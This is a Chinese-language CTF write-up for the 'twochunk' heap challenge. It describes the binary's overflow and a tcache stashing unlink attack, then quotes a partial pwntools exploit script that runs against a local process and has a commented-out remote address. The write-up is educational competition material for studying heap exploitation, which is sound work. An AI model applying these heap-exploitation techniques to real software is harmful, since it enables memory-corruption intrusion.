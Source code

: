 
Show function:
`write(1,buf,8)` 只能用一次.
edit function:
溢出

free 就挺正常的...
还有一个`malloc(0x80)`只能用一次的功能,一个显示message的功能和一个call message的后门.
上面那题过程讲的挺清楚这里就直接来思路吧.主要的漏洞就是heap溢出漏洞,主要限制是idx限制2个,`calloc`限制大小很多功能只能用一次.

# solution
可以直接看第二种.


## 1
这个是我没有理解`tcache stashing unlink atk`真谛想的辣鸡做法..概率大概是4096 * n倍,我从晚上12点左右开始跑用tmux 同步开了11个终端,早上6半我起来收到了一个flag...
0. leak heap
1. tcache stashing unlink atk 写 bss 上的 edit_time,由heap地址推断 
2. edit次数不限了就非常简单了
这里贴一下[@ch4r1l3][3]的exp,大哥tql!
```python
from pwn import *
#context.log_level='debug'
context.terminal = ['tmux', 'splitw', '-h']
context.arch='amd64'
def cmd(c):
	p.sendafter(": ",str(c))
def add(idx,size):
	cmd(1)
	cmd(idx)
	cmd(size)
def free(idx):
	cmd(2)
	cmd(idx)
def show(idx):
	cmd(3)
	cmd(idx)
def edit(idx,c):
	cmd(4)
	cmd(idx)
	p.sendafter(": ",c)
def msg(c):
	cmd(6)
	p.sendafter(": ",c)
#p=remote("121.36.209.145",9999)
p=process('./twochunk')
libc=ELF("/lib/x86_64-linux-gnu/libc-2.30.so")
p.sendafter(": ",flat(0x23333000,0x23333020))
p.sendafter(": ","1"*0x40)
for x in range(7):
    add(0,0x188)
    free(0)
for x in range(5):
    add(0,0x88)
    free(0)
add(0,0x188)
add(1,0x99)
free(0)
add(0,0xf8)
free(0)
add(0,0x99)
free(1)
```

[0]: https://github.com/n132/Watermalon/tree/master/Hitcon_2019/one_punch_man
[1]: https://github.com/n132/Watermalon/tree/master/%E9%AB%98%E6%A0%A1%E6%88%98%E7%96%AB_2020/twochunk
[2]: https://xz.aliyun.com/t/7192
[3]: ch4r1l3.github.io